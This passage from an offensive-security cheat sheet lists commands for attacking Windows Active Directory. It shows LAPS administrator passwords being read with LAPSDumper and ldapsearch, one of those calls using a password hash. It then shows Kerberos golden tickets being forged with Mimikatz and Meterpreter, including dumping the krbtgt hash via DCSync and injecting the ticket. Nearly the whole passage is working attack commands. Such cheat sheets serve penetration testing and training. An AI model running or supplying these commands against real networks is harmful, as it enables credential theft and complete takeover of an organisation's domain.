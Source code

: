    * [LAPSDumper](https://github.com/n00py/LAPSDumper) 
       ```bash
       python laps.py -u 'user' -p 'password' -d 'domain.local'
       python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local' -l 'dc01.domain.local'
       ```
   
   * ldapsearch
      ```bash
      ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
      ```
     
### Pass-the-Ticket Golden Tickets

Forging a TGT require the `krbtgt` NTLM hash

> The way to forge a Golden Ticket is very similar to the Silver Ticket one. The main differences are that, in this case, no service SPN must be specified to ticketer.py, and the krbtgt ntlm hash must be used.

#### Using Mimikatz

```powershell
# Get info - Mimikatz
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt

# Forge a Golden ticket - Mimikatz
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

#### Using Meterpreter 

```powershell
# Get info - Meterpreter(kiwi)
dcsync_ntlm krbtgt
dcsync krbtgt

# Forge a Golden ticket - Meterpreter
load kiwi
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
kerberos_ticket_purge
kerberos_ticket_use /root/Downloads/pentestlabuser.tck
kerberos_ticket_list
```
